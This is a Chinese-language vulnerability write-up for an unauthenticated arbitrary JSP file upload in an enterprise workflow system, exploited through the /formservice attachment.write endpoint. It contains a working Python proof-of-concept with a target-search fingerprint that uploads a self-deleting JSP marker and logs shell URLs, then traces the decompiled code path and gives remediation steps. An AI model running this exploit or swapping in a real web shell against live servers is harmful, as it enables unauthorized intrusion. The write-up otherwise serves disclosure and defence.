# 漏洞复现

```
# body="企业流程化管控系统" && body="密码(Password):"

import re
import requests
import urllib3
import multiprocessing

urllib3.disable_warnings()

proxies = {
    "http": "http://127.0.0.1:7890",
    "https": "http://127.0.0.1:7890"
}

data = '''<% out.println("CdaF3C8f77065666");new java.io.File(application.getRealPath(request.getServletPath())).delete(); %>'''


def poc(url):
    target = url + "/formservice?service=attachment.write&isattach=false&filename=acebe1BA7BC18dB4.jsp"
    try:
        r = requests.post(target, data=data, verify=False, proxies=proxies, allow_redirects=False)
        print(r.text)
        pattern = r'<root>(.*?)</root>'
        match = re.search(pattern, r.text)
        if match:
            filename = match.group(1)
            shell = url + f"/form/temp/{filename}"
            if requests.get(shell).status_code == 200:
                with open("result.txt", "a") as f:
                    f.write(shell + "\n")
                    f.close()
                print("shell地址：" + shell)
            else:
                pass
    except:
        pass


if __name__ == "__main__":
    poc("http://127.0.0.1:8081")
```





访问后删除

# 漏洞分析

在另外一篇关于formservcie造成的sql注入漏洞的分析中，有关于FormService这个接口的作用和解析流程，就不赘述了。

定位到路由FormService



这个方法首先会从Request对象中取出service参数赋值给var6，取出第一个值，然后根据这个值对相应类进行实例化，service可以通过Class.Method这种形式来指定调用service对应class的对应方法，例如attachment.write，service对应关系在plugins.xml



通过getService返回Object数组，里面包含实现类，对应的方法，通过方法参数接口得到的int值等等





然后对变量进行赋值



这里因为是反编译的代码，调试过程看到的变量感觉有点问题，其实var8才是那个对应的attachment类，var9时长度，var10是attachment字符串，var11是write字符串，var12时attachment类实现的所有接口



也就是IScurityService接口，遍历获取接口，当实现了IScurityService接口的时候可以进入if方法，通过反射调用attachment的isAccessible方法判断write方法能否被访问



只要不为空，并且不包含delete子串即可，接下来当在207行中如果获取到了isAccessible方法，不为空则跳出循环



接下来判断请求到方法是否为GET，并且调用的方法长度是否为0 ，这里var9不是attachment，而是int数据5，当为POST的时候进入else分支



没有传入content，也不是文件上传的请求的话，就进入else，var49的定义在service最开头


没有传入inflate的时候为flase，在else if中的判断也不满足，因为write的长度为5

在后面通过长度判断进入到对应的if



获取POST的原始数据流赋值给var60，后面还会判断是否实现了AbstractArteryService也会有一系列流程



当不满足的话，就会进入else分支，因为var9代表调用方法的长度不为0 ，所以创建一个Object类，里面是request，response对象，以及POST获取到的原始数据流



然后通过反射，调用对应的Method，因为传入的service是attachment.write，所以这里是调用的attachment的write方法，传入了过程构造的Object对象



这个方法首先获取了两个参数，filename和isattach，isattach默认为true，可以自己控制进入不同的分支，在else分支中



存在文件写入的相关操作，获取了rootpath，因为isattach此时为false，所以rootpath其实是在/form目录，接下来通过一系列拼接操作生成新的attachFilename，然后将文件写入/form/temp，内容是传入的is这个InputStream，即POST的原始数据流



然后返回写入的文件名，然后在service方法的最后会通过response对象输出一个xml信息到页面上


输出类似如下信息


# 漏洞修复

1. 对应attachment类的write接受的filename参数进行限制，禁止jsp等文件上传。
2. 在write方法对接受到的数据流再进行一遍检查，进行黑名单过滤。
3. 联系厂商，在漏洞修复后第一时间进行升级。